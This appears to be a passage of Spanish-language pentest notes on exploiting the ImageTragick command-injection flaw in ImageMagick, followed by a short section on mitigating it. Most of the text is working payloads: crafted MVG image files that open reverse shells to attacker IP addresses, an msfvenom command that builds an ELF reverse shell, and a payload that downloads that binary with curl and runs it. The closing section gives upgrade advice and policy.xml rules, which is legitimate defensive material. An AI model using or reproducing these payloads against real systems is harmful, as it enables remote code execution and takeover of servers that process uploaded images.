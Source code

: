 ```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://\x22|setsid /bin/bash -i >/dev/tcp/xx.xx.248.51/443 0<&1 2>&1")'
pop graphic-context
```

puedes crear un **.elf** malicioso para luego invocarlo:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.15.41 LPORT=443 -f elf -o shell.elf
```

```bash
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://127.0.0.0/oops.jpg"|curl 10.10.15.41/shell.elf -o /tmp/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf; echo "rce1)'
pop graphic-context
```

payloads all the things [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik)

```bash
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/IP/PORT 0<&1 2>&1'
pop graphic-context
pop graphic-context
```

### COMO ARREGLAR ESTA VULNERABILIDAD

Puede corregir esta vulnerabilidad actualizando ImageMagick a la última versión. El registro de cambios se proporciona [aquí](http://legacy.imagemagick.org/script/changelog.php) . O bien, si no desea actualizar la utilidad, ImageMagick también ha compartido una solución alternativa en una publicación oficial [aquí](https://www.imagemagick.org/discourse-server/viewtopic.php?f=4&t=29588) . Dice que puede editar el `policy.xml` de ImageMagick y agregar las siguientes políticas que evitarán esta vulnerabilidad.

```bash
<policy domain="coder" rights="none" pattern="EPHEMERAL" />
<policy domain="coder" rights="none" pattern="HTTPS" />
<policy domain="coder" rights="none" pattern="MVG" />
<policy domain="coder" rights="none" pattern="MSL" />
```

Después de actualizar su `policy.xml`, puede probar su configuración clonando este [repositorio git](https://github.com/ImageTragick/PoCs) y ejecutando `test.sh`.

```bash
git clone https://github.com/ImageTragick/PoCs.git
cd PoCs
chmod +x test.sh && ./test.sh
```
